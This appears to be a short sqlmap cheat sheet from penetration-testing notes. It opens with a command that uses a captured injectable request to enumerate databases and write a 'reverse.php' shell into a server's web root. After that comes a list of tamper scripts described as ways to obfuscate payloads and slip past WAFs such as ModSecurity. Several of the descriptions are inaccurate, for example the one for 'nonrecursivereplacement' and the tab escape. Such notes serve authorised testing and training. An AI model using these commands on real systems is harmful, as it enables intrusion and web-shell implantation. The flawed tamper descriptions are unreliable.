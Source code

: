 # SqlMap

`sqlmap -r req.txt -dbs --file-dest=/var/www/html/reverse.php --file-write=./reverse.php`


`sqlmap --list-tampers`  
`space2comment` - convert spaces into comments (/**/)  
`randomcase` - randomizes the case of SQL keywords  
`between` - replace boolean operators with between
`charencode` - encodes characters using URL encoding (%xx)  
`equaltolike` - replace `=` with `LIKE`  
`appendnullbyte` - append a null byte (`%00`) to the end of the payload  
`base64encode` - encodes the entire payload in base64  
`chardoubleencode` - double url-encodes the payload  
`commalesslimit` - replace commas(,) in the `LIMIT` clause with `OFFSET`  
`halfversionedmorekeywords` - adds SQL keywords in comments to obfuscate the query and bypass pattern matching  
`modsecurityversioned` - obfuscates the payload by adding `/*!version*/` comments, which is commonly used to bypass ModSecurty WAF  
`space2hash` - replace spaces with hashes (`#`)  
`overlongutf8` - convert characters to their overlong UTF-8 encoding  
`randomcomments` - insert random comments inside SQL keywords to break WAF filtering mechanisms  
`unionalltounion` - replace `UNION ALL SELECT` with `UNION SELECT` to bypass basic filtering rules for union injections  
`versionedkeywords` - append versioned comments to SQL keywords to obfuscate the payload  
`space2dash` - replace spaces with dashes(`-`)  
`multiplespace` - inserts multiple spaces between SQL keywords  
`nonrecursivereplacement` - replace `UNION SELECT` with ` UNION ALL SELECT` 
`space2tab` - replace spaces with tab characters(`/t`)  
`lowercase` - convert the entire payload to lowercase  
